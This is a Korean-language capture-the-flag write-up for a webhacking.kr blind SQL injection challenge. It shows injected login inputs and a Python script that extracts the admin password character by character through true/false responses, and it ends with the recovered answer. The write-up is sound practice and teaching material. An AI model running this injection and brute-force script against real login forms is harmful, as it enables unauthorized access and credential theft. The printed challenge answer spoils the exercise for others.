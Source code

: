 # Blind SQLi

id, pw입력란이 있다. 
그냥 막 넣어보니, `login fail`이라고 뜬다.
쿼리문은 다음과 같을 것이다. 

```sql
SELECT user FROM chall21 WHERE id='<인풋1>' and pw='<인풋2>'
```

`id = admin`
`pw = ' or '1` 을 삽입한다. 

```sql
SELECT user FROM chall21 WHERE id='admin' and pw='' or '1' 
```

이때는 쿼리문이 Success가 되고, 출력값은 `wrong password` 이 경고값을 보여준다. 
블라인드라더니, **참거짓을 판별할 요소** 가 있었다.

일단, pw 길이를 알아야한다. 

```
/?id=admin&pw=' or length(pw)>0
```

 위 구문을 넣어서 wrong password가 나오는 것을 확인하고 아래와 같은 코드를 작성한다. 

```python
import requests

cookies={'PHPSESSID':'1uv1k3nmdjkp58kt643v5al23t'}
url = "https://webhacking.kr/challenge/bonus-1/index.php"

pw_length = 0
pw = []

for i in range(40):
    query = f"?id=admin&pw=' or length(pw)={i}%23"
    res = requests.get(url+query, cookies=cookies)
    if res.text.find('wrong password') > 0:
        pw_length = i
        break
print(pw_length)

pw = ''
for i in range(1, pw_length+1):
    for j in range(33, 123): # ! ~ z
        query = f"?id=admin&pw=' or ascii(substr(pw,{i},1))={j}%23"
        res = requests.get(url+query, cookies=cookies)
        if res.text.find('wrong password') > 0:
            pw += chr(j)
            print(pw)
            break
print(f'cracked pw: {pw}')
```

```
5
g
gh
ghe
gher
ghere
cracked pw: ghere
```

이게 답인가 싶지만 답이 아니었다. 
pw의 길이는 5가 아니다. 

왠진 모르겠지만, wrong password가 나오면 break를 했었는데 저걸 없애봤다. 

```python
for i in range(40):
    query = f"?id=admin&pw=' or length(pw)={i}%23"
    res = requests.get(url+query, cookies=cookies)
    if res.text.find('wrong password') > 0:
        pw_length = i
print(pw_length)
```

그리고 나머지는 그대로 해서 다시 돌려봤다. 

길이는 36이 나왔다. 
비번은 ghere_is_no_rest_for_the_white_angel

이때 ghere는 there가 되어야한다. 
pw를 불러올때 알파벳순으로 정렬되어오다보니, t보다 앞서는 g가 먼저나오게 된 것이다. 

따라서 답은 

```
admin
there_is_no_rest_for_the_white_angel
```

> 이제 blind SQLi 문제는 바로바로 풀어내자!!